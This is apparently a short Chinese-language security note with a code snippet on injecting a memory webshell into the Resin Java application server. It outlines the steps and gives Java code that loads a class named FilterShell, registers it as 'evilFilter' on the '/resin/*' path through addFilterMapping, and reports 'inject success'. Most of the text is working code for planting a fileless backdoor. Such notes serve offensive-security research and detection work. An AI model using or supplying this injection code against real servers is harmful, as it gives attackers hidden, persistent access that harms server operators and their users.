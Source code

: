 ![image-20220106174411748](img/image-20220106174411748.png)

注入思路

- 获取当前环境的WebApp(上下文)

- 构造filterMapping，添加`相关配置`

  ```
  filterMapping.setFilterClass();
  filterMapping.setFilterName();
  FilterMapping.URLPattern urlPattern = filterMapping.createUrlPattern();
  urlPattern.addText(urlPatternX);
  urlPattern.init();
  ```

- 调用成员方法addFilterMapping添加该filterMapping即可



代码实现

```java
String filterName = "evilFilter";
String urlPatternX = "/resin/*";
ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
Class servletInvocation = classLoader.loadClass("com.caucho.server.dispatch.ServletInvocation");
Object currentRequest = servletInvocation.getMethod("getContextRequest").invoke(null);
WebApp webApp = (WebApp)currentRequest.getClass().getMethod("getWebApp").invoke(currentRequest);
Class evilClazz = classLoader.loadClass("com.example.general.FilterShell");
FilterMapping filterMapping = new FilterMapping();
filterMapping.setFilterClass(evilClazz.getName());
filterMapping.setFilterName(filterName);
FilterMapping.URLPattern urlPattern = filterMapping.createUrlPattern();
urlPattern.addText(urlPatternX);
urlPattern.init();
webApp.addFilterMapping(filterMapping);
response.getWriter().write("inject success");
```
